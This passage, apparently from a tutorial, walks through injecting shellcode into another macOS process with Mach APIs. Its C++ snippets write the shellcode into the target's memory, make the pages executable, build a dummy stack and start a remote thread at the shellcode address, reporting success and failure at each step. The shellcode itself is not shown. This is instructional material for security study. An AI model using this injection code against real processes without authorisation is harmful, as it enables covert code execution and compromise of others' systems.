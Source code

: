 Write shellcode to remote memory:    

```cpp
kr = mach_vm_write(task, remote_addr, (vm_offset_t)shellcode, shellcode_size);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_write failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] wrote shellcode\n");
```

At the next step, flip the pages to `R-X`. Executing from a non-exec page triggers a `BUS ERROR` on macOS, so don't skip this.    

```cpp
kr = mach_vm_protect(task, remote_addr, shellcode_size, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_protect failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] set memory protections to RX\n");
```

Setup dummy stack:    

```cpp
// setup new thread state
x86_thread_state64_t state;
thread_act_t thread;
mach_msg_type_number_t state_count = x86_THREAD_STATE64_COUNT;
memset(&state, 0, sizeof(state));

// set instruction pointer (rip) to our shellcode
state.__rip = remote_addr;

// stack pointer (rsp) should be valid; just allocate a dummy stack
mach_vm_address_t remote_stack = 0;
kr = mach_vm_allocate(task, &remote_stack, 0x1000, VM_FLAGS_ANYWHERE);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_allocate (stack) failed: %s\n", mach_error_string(kr));
  return 1;
}
```

Align to `16` bytes for `x86_64` ABI. Set `RSP` to the top of that region (minus a small red zone):    

```cpp
state.__rsp = remote_stack + 0x1000 - 8; // stack top aligned
```

Finally, create the thread:    

```cpp
kr = thread_create_running(task,
  x86_THREAD_STATE64,
  (thread_state_t)&state,
  state_count,
  &thread);

if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] thread_create_running failed: %s\n", mach_error_string(kr));
  return 1;
}

printf("[+] remote thread created at RIP=0x%llx, RSP=0x%llx\n", state.__rip, state.__rsp);
printf("[+] shellcode running in PID %d via new thread.\n", pid);
```
